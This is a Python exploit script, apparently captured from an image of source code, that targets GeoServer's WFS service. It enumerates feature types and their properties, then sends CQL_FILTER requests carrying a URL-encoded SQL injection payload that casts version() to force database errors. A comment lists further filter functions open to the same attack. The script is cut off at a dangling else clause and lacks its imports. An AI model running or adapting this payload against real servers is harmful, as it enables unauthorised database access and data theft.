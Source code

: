 ```SQL

# Check if the script is run without parameters
if len(sys.argv) == 1:
    print(f"{YELLOW}This script requires a URL parameter.{ENDC}")
    print(f"{YELLOW}Usage: python3 {sys.argv[0]} <URL>{ENDC}")
    sys.exit(1)

# URL and proxy settings
URL = sys.argv[1]
PROXY_ENABLED = False
PROXY = "http://127.0.0.1:8080/" if PROXY_ENABLED else None

response = requests.get(URL + "/geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities",
                        proxies={"http": PROXY}, verify=False)

if response.status_code == 200:

    # Parse the XML response and extract the Name from each FeatureType and store in a list
    root = ET.fromstring(response.text)
    feature_types = root.findall('.//{http://www.opengis.net/wfs}FeatureType')
    names = [feature_type.findtext('{http://www.opengis.net/wfs}Name') for feature_type in feature_types]

    # Print the feature names
    print(f"{GREEN}Available feature names:{ENDC}")
    for name in names:
        print(f"- {name}")

    # Send requests for each feature name and CQL_FILTER type
    cql_filters = [
        "strStartsWith"]  # We can also exploit other filter/functions like "PropertyIsLike", "strEndsWith", "strStartsWith", "FeatureId", "jsonArrayContains", "DWithin" etc.
    for name in names:
        for cql_filter in cql_filters:
            endpoint = f"/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName={name}&maxFeatures=1&outputFormat=json"
            response = requests.get(URL + endpoint, proxies={"http": PROXY}, verify=False)
            if response.status_code == 200:
                json_data = json.loads(response.text)
                try:
                    properties = json_data['features'][0]['properties']
                except  IndexError:
                    print("Error: 超出范围")
                property_names = list(properties.keys())
                print(f"\n{GREEN}Available Properties for {name}:{ENDC}")
                for property_name in property_names:
                    print(f"- {property_name}")

                print(f"\n{YELLOW}Sending requests for each property name:{ENDC}")
                for property_name in property_names:
                    endpoint = f"/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName={name}&CQL_FILTER={cql_filter}%28{property_name}%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+INTEGER%29%29+--+%27%29+%3D+true"
                    response = requests.get(URL + endpoint, proxies={"http": PROXY}, verify=False)
                    print(
                        f"[+] Sending request for {BOLD}{name}{ENDC} with Property {BOLD}{property_name}{ENDC} and CQL_FILTER: {BOLD}{cql_filter}{ENDC}")
                    if response.status_code == 200:
                        root = ET.fromstring(response.text)
                        error_message = root.findtext('.//{http://www.opengis.net/ogc}ServiceException')
                        print(f"{GREEN}{error_message}{ENDC}")
                    else:
```
